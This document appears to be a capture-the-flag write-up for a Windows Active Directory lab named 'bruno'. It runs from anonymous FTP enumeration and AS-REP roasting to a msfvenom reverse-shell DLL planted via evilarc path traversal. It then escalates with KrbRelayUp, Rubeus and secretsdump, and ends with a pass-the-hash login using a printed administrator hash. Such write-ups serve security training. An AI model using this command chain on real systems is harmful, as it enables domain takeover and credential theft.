






# Enumeration
```
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-29-22  04:55PM       <DIR>          app
| 06-29-22  04:33PM       <DIR>          benign
| 06-29-22  01:41PM       <DIR>          malicious
|_06-29-22  04:33PM       <DIR>          queue
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-05 12:41:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
|_ssl-date: 2024-04-05T12:42:45+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=bruno-BRUNODC-CA
| Not valid before: 2022-06-29T13:23:01
|_Not valid after:  2121-06-29T13:33:00
|_http-title: IIS Windows Server
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
|_ssl-date: 2024-04-05T12:42:45+00:00; -23h59m43s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Not valid before: 2024-04-04T10:59:41
|_Not valid after:  2024-10-04T10:59:41
| rdp-ntlm-info: 
|   Target_Name: BRUNO
|   NetBIOS_Domain_Name: BRUNO
|   NetBIOS_Computer_Name: BRUNODC
|   DNS_Domain_Name: bruno.vl
|   DNS_Computer_Name: brunodc.bruno.vl
|   DNS_Tree_Name: bruno.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-05T12:42:05+00:00
Service Info: Host: BRUNODC; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49671/tcp open  msrpc      Microsoft Windows RPC
49682/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
58597/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We find an anonymous ftp login
And checking app directory we find a changelog

A user called svc_scan is mentioned so trying to asreproast with kerbrute:

We get a hash.
And using hashcat:
`svc_scan:Sunshine1`
Now checking the dll file:

We can find it unzipping archives which means we can use path traversal with evilarc

Running samplescanner.exe we find 2 missing .dll files.
Now creating a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.8.1.208 LPORT=9005 > hostfxr.dll
```

And the SampleScanner is located in `app/` so using evilarc:
```
py -2 evilarc.py hostfxr.dll -p "\app" -d 1
```

Now using smb to upload the file we get a reverse shell:


## KrbRelayUp
Using 
```
.\KrbRelayUp.exe full -m shadowcred -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
```

Using PKinit certficate password:
```
Rubeus.exe asktgt /user:brunodc$ /certificate:MIIKSAIBAzCCCgQGC...snip.... /password:tV0-oN8$aB7- /enctype:AES256 /nowrap
```

or 

```
KrbRelayUp.exe full -m rbcd -c -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
```
To get ticket:
```
getST.py -impersonate 'administrator' bruno.vl/'KRBRELAYUP$':"uO7/yU9/kQ0#lA7-" -spn HOST/BRUNODC
```
## Admin Shell
Then use ticket converter to convert kirbi to ccache:
```
ticketConverter.py brunodc.kirbi brunodc.ccache
```
Now using the ticket with secretsdump.py:
```
export KRB5CCNAME=./brunodc.ccache
secretsdump.py 'brunodc$'@brunodc.bruno.vl -k -no-pass
```

Then get shell:
```
evil-winrm -i bruno.vl -u administrator -H '13735c7d60b417421dc6130ac3e0bfd4'
```

